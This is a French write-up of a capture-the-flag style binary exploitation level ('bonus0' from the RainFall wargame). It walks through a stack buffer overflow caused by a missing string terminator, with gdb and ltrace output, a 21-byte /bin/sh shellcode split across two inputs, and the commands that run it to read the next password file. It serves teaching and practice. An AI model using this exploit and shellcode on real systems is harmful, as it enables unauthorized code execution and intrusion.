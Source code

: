 # Bonu 0

- En lisant le code et en l'executant on comprend qu'il y a un bug/faille
- Dans la fonction pp le \0 de la 1er string est remplacer par un espace
- Ce qui fait que quand la premiere string est entierement remplis il considere str1 et str2 comme une string
- str2 est donc copier a la fin de str1 + str2 dans strcat
- Dans gdb on voit donc qu'on peut ecrire sur la variable $eip

<pre>
$> gdb-peda pattern create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r
Starting program: /home/alarm/rainfall/bonus0/Ressources/bonus0 
 - 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
 - 
AAA%AAsAABAA$AAnAACAA-AA(AADAA
iiiiiiiiiiiiiiiiiiiiAAA%AAsAABAA$AAnAACA AAA%AAsAABAA$AAnAACA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EIP: 0x416e4141 ('AAnA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x416e4141
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x416e4141 in ?? ()
gdb-peda$ pattern offset AAnA
<strong>AAnA found at offset: 13</strong>
</pre>

<pre>
bonus0@RainFall:~$ (echo BBBBBBBBBBBBBBBBBBB; sleep 1; echo AAAAAAAAAAAAAAAAAAAAA; cat) | ltrace ./bonus0 
\__libc_start_main(0x80485a4, 1, 0xbffff704, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - ")                                                                                = 4
read(0, "BBBBBBBBBBBBBBBBBBB\n", 4096)                                                     = 20
strchr("BBBBBBBBBBBBBBBBBBB\n", '\n')                                                      = "\n"
strncpy(0xbffff5e8, "BBBBBBBBBBBBBBBBBBB", 20)                                             = 0xbffff5e8
puts(" - ")                                                                                = 4
read(0, "AAAAAAAAAAAAAAAAAAAAA\n", 4096)                                                   = 22
strchr("AAAAAAAAAAAAAAAAAAAAA\n", '\n')                                                    = "\n"
strncpy(0xbffff5fc, "AAAAAAAAAAAAAAAAAAAA", 20)                                            = 0xbffff5fc
strcpy(<strong>0xbffff636</strong>, "BBBBBBBBBBBBBBBBBBB")                                                  = 0xbffff636
strcat("BBBBBBBBBBBBBBBBBBB ", "AAAAAAAAAAAAAAAAAAAA\364\017\375\267")                     = "BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...
puts("BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...)                                                = 45
+++ exited (status 0) +++
</pre>
- On a l'addresse de notre stack (*0xbffff636*)
- Notre shellcode fait 21 carrecter donc on le decoupe en deux 20 dans le premier argument et 1 dans le deuxieme

| Arg 1 | Arg 2 |
|-------|-------|
| `\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\n` | `\80` + `B` \* 8 + `0xbffff636` + `B` \* 20 + `\n`|

- Donc en gros on overide la return address pour qu'elle renvoie sur notre shellcode
- On utilise un code en C car il y a des problemes avec python
```
gcc /tmp/pattern.c -o /tmp/pat
gcc /tmp/shellcode.c -o /tmp/shell
(/tmp/shell; sleep 1; /tmp/pat; cat) | ./bonus0
cat /home/user/bonus0/.pass
```
